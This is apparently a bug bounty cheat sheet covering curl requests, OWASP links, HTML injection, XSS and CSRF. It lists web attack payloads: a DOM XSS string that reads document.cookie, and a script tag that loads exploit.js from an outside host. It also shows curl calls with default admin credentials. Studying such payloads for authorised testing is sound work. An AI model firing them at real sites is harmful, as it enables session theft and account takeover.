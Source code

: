# Bug Bounty

Overview
---------
1. - [Web Requests](#1---web-requests)
2. - [Online Resources](#2---online-resources)
3. - [Sensitive Data Exposure](#3---sensitive-data-exposure)
4. - [HTML Injection](#4---html-injection)
5. - [Cross-Site Scripting (XSS)](#5---cross-site-scripting-xss)
6. - [Cross-Site Request Forgery (CSRF)](#6---cross-site-request-forgery-csrf)

   
#1. - Web Requests
-----------------------------------------

- Curl

```
$ curl -v <URL>
$ curl -IL <URL>
$ curl -v -X OPTIONS <URL>
$ curl -u admin:admin <URL>
$ curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' <URL>
$ curl <URL>/search.php?search=test
$ curl -X POST -d 'username=admin&password=admin' <URL>
$ curl -X POST -d '{"search":"test"}' -H 'Content-Type: application/json' <URL>
$ curl -b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' <URL>
$ curl -H 'Cookie: PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' <URL>
```

- DevTools

```
F12
```

#2. - Online Resources
-----------------------------------------

- OWASP Web Security Testing Guide

```
https://owasp.org/www-project-web-security-testing-guide/
https://github.com/OWASP/wstg/tree/master/document/4-Web_Application_Security_Testing
```

- HTML - CSS - JS Online Editor

```
https://html-css-js.com/
```

- HTML WYSIWYG Online Editor

```
https://htmlg.com/html-editor/
```

- JSFiddle Code Playground

```
https://jsfiddle.net/
```

#3. - Sensitive Data Exposure
-----------------------------------------

- Source Code

```
Right-click -> View page source
OR
CTRL + U
```

#4. - HTML Injection
-----------------------------------------

- Hyperlink

```
<a href="http://www.google.com">Click Me</a>
```

#5. - Cross-Site Scripting (XSS)
-----------------------------------------

*Reflected XSS	= Occurs when user input is displayed on the page after processing (e.g., search result or error message).*

*Stored XSS = Occurs when user input is stored in the back end database and then displayed upon retrieval (e.g., posts or comments).*

*DOM XSS	= Occurs when user input is directly shown in the browser and is written to an HTML DOM object (e.g., vulnerable username or page title).*

- DOM XSS

```
#"><img src=/ onerror=alert(document.cookie)>
```

#6. - Cross-Site Request Forgery (CSRF)
-----------------------------------------

- Password Change

```
"><script src=//www.example.com/exploit.js></script>
```
